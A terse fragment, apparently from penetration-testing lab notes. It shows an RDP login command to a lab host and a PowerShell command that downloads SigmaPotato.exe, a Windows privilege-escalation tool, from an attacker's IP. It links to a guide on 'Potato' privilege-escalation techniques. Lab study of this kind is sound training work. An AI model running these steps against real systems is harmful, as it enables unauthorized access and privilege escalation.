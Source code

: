 ```powershell
xfreerdp /v:192.168.160.220 /u:dave4 /p:'lab' /cert-ignore /dynamic-resolution +clipboard /drive:TEST,/home/kali/


iwr -uri http://192.168.45.168/SigmaPotato.exe -OutFile SigmaPotato.exe

```

https://jlajara.gitlab.io/Potatoes_Windows_Privesc